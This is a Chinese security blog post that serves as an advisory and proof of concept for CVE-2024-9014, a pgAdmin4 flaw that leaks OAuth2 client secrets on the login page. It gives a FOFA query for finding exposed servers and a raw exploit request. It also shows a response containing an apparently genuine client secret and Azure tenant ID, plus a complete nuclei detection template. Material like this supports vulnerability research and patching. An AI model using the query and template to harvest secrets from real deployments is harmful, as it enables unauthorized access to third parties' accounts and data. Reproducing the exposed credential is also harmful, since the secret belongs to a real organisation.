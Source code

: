 #  CVE-2024-9014   
原创 fgz  AI与网安   2024-10-07 17:39  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
pgAdmin4 OAuth2 client ID与secret敏感信息泄漏漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
pgAdmin4  8.9-3.fc40  
  
pgAdmin4  8.12-1.fc41  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNwiakvsWBJIHsNliajSyPfEOvVW5iaSJvdHGpdXqDCsfo6Kf8eYKgILP0I0MTbtFia6ibyCxOrqCFkcGQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
pgAdmin4 是开源数据库 PostgreSQL 的图形管理工具。2024年互联网上披露 CVE-2024-9014 pgAdmin 4 OAuth2 client ID与secret敏感信息泄漏漏洞。攻击者可构造恶意请求获取客户端ID和密钥，从而导致未经授权访问其他用户数据。官方已发布安全更新，建议升级至最新版本。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
icon_hash="1502815117"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNwiakvsWBJIHsNliajSyPfEOcxbn9z953FMOoulgvpLjkTLuWeIkSUYiaQxsIV3rKO8grwWiacNEoRvw/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包  
```
GET /login?next=/ HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11) AppleWebKit/601.1.27 (KHTML, like Gecko) Chrome/47.0.2526.106 Safari/601.1.27
Connection: close
Accept-Encoding: gzip
```  
  
响应如下  
```
HTTP/1.1 200 OK
Connection: close
Content-Security-Policy: default-src ws: http: data: blob: 'unsafe-inline' 'unsafe-eval';
Content-Type: text/html; charset=utf-8
Date: Mon, 07 Oct 2024 09:28:35 GMT
Server: gunicorn
Set-Cookie: pga4_session=363dd09a-fee5-403e-8e8f-d55680b3f182!eZ4oYiB5uSYYlK/N7KtvaLk4R1o5eKkz48mHvSualtk=; Expires=Tue, 08 Oct 2024 09:28:35 GMT; HttpOnly; Path=/; SameSite=Lax
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block

<!DOCTYPE html>
...
<script type="application/javascript">
            try {
    require(
        ['security.pages'],
        function() {
            window.renderSecurityPage('login_user', {"authSources": ["oauth2", "internal"], "authSourcesEnum": {"KERBEROS": "kerberos", "OAUTH2": "oauth2"}, "csrfToken": "ImY1NzA1ZmZkMWYzNDAyYzg1ZmU2ZGE5OTE3NDhhOTU1ZTBiOWM2Yzki.ZwOpww.lo_Rs3jMAy_gm5G4_Z6c-q7ISdc", "forgotPassUrl": "/browser/reset_password", "langOptions": [{"label": "English", "value": "en"}, {"label": "Chinese (Simplified)", "value": "zh"}, {"label": "Czech", "value": "cs"}, {"label": "French", "value": "fr"}, {"label": "German", "value": "de"}, {"label": "Indonesian", "value": "id"}, {"label": "Italian", "value": "it"}, {"label": "Japanese", "value": "ja"}, {"label": "Korean", "value": "ko"}, {"label": "Polish", "value": "pl"}, {"label": "Portuguese (Brazilian)", "value": "pt_BR"}, {"label": "Russian", "value": "ru"}, {"label": "Spanish", "value": "es"}], "loginBanner": "", "loginUrl": "/authenticate/login", "oauth2Config": [{"OAUTH2_API_BASE_URL": "https://graph.microsoft.com/oidc/userinfo", "OAUTH2_AUTHORIZATION_URL": "https://login.microsoftonline.com/81464583-3a2a-4b1b-9b3e-886fa00de22b/oauth2/v2.0/authorize", "OAUTH2_BUTTON_COLOR": "#0000ff", "OAUTH2_CLIENT_ID": "91a5b302-7076-4ab8-ae36-8ce782204f2f", "OAUTH2_CLIENT_SECRET": "5uE8Q~3RDpIEk2LfpFttHtBFtdfDMXF-aAKcDa5h", "OAUTH2_DISPLAY_NAME": "Microsoft", "OAUTH2_ICON": "fa-microsoft", "OAUTH2_NAME": "microsoft", "OAUTH2_SCOPE": "openid email", "OAUTH2_SERVER_METADATA_URL": "https://login.microsoftonline.com/81464583-3a2a-4b1b-9b3e-886fa00de22b/v2.0/.well-known/openid-configuration", "OAUTH2_TOKEN_URL": "https://login.microsoftonline.com/81464583-3a2a-4b1b-9b3e-886fa00de22b/oauth2/v2.0/token", "OAUTH2_USERINFO_ENDPOINT": "userinfo"}], "userLanguage": "en"},
                {"messages": []});
        }, function() {
            console.log(arguments);
```  
  
其中包含敏感信息，漏洞复现完成  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-9014

info:
  name: pgAdmin 4 - Authentication Bypass
  author: s4e-io
  severity: critical
  description: |
    pgAdmin 4 versions 8.11 and earlier are vulnerable to a security flaw in OAuth2 authentication. This vulnerability allows an attacker to potentially obtain the client ID and secret, leading to unauthorized access to user data.
  reference:
    - https://github.com/EQSTLab/CVE-2024-9014
    - https://github.com/pgadmin-org/pgadmin4/issues/7945
    - https://nvd.nist.gov/vuln/detail/CVE-2024-9014
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 9.9
    cve-id: CVE-2024-9014
    cwe-id: CWE-522
    epss-score: 0.00043
    epss-percentile: 0.09595
  metadata:
    verified: true
    max-request: 1
    vendor: pgadmin-org
    product: pgadmin4
    fofa-query: "pgadmin4"
  tags: cve,cve2024,pgadmin,exposure,auth-bypass

http:
  - raw:
      - |
        GET /login?next=/ HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: regex
        part: body
        negative: true
        regex:
          - 'OAUTH2_CLIENT_SECRET": null'

      - type: word
        part: body
        words:
          - '<title>pgAdmin 4</title>'
          - 'OAUTH2_CLIENT_SECRET'
        condition: and

      - type: status
        status:
          - 200
```  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
  
